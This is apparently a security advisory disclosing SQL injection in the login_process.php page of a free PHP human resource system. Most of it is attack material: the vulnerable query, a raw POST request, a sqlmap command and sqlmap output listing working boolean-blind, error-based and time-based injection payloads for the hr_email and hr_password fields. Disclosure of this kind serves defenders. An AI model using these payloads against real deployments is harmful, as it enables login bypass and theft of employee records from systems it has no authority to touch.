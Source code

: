 ## Human Resource Information System - SQL Injection on (initialize/login_process.php hr_email/hr_password parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/14714/human-resource-information-using-phpmysqliobject-orientedcomplete-free-sourcecode.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
initialize/login_process.php 

On this page, hr_email and hr_password parameters are vulnerable to SQL Injection Attack 
### Source Code(initialize/login_process.php):
```
$hr_email = $_POST['hr_email'];
$hr_password   = $_POST['hr_password'];
$hr_type  = $_POST['hr_type'];
$query  = $phdb->query("SELECT * FROM hr_member WHERE hr_email='$hr_email' AND hr_password='$hr_password' AND hr_type='HR Head'");
Proof of vulnerability(Verify using the sqlmap tool):
Requests:
POST /Human%20Resource%20Information%20System%202020/initialize/login_process.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 98
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/Human%20Resource%20Information%20System%202020/
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

hr_email=1&hr_password=1&hr_type=HR+Head&login_hr=
```
#### -> sqlmap -r 1.txt(above request package) --batch
### Output:
```
---
Parameter: hr_email (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: hr_email=1' OR NOT 4510=4510#&hr_password=1&hr_type=HR Head&login_hr=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hr_email=1' OR (SELECT 5663 FROM(SELECT COUNT(*),CONCAT(0x716b717071,(SELECT (ELT(5663=5663,1))),0x71786b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FySz&hr_password=1&hr_type=HR Head&login_hr=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hr_email=1' AND (SELECT 9216 FROM (SELECT(SLEEP(5)))UyGW)-- ctYN&hr_password=1&hr_type=HR Head&login_hr=
---
---
Parameter: hr_password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: hr_email=1&hr_password=1' OR NOT 2899=2899#&hr_type=HR Head&login_hr=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hr_email=1&hr_password=1' OR (SELECT 9783 FROM(SELECT COUNT(*),CONCAT(0x716b717071,(SELECT (ELT(9783=9783,1))),0x71786b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tukX&hr_type=HR Head&login_hr=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hr_email=1&hr_password=1' AND (SELECT 3525 FROM (SELECT(SLEEP(5)))QLMt)-- HCvR&hr_type=HR Head&login_hr=
---
```

